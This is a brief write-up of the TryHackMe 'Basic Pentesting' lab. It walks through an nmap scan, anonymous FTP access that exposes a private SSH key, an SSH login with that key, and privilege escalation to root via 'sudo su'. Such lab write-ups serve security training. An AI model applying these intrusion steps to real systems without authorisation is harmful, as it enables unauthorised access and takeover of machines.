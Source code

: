 # 🔓 TryHackMe - Basic Pentesting

## 📎 Room Link
[Basic Pentesting](https://tryhackme.com/room/basicpentestingjt)

## 🔍 Nmap Scan

```bash
nmap -sC -sV -oN basic-nmap.txt 10.10.X.X
```

Ports Open: 21 (FTP), 22 (SSH), 80 (HTTP)

## 🕵️ Enumeration

FTP Anonymous Login allowed → found `id_rsa`
```bash
ftp 10.10.X.X
```

Used key to SSH into target:
```bash
chmod 600 id_rsa
ssh -i id_rsa user@10.10.X.X
```

---

## 🔐 Privilege Escalation

Checked `sudo -l`, found access to commands without password.

Got root access using:
```bash
sudo su
```

---

## ✅ Flags:
- [x] User.txt
- [x] Root.txt
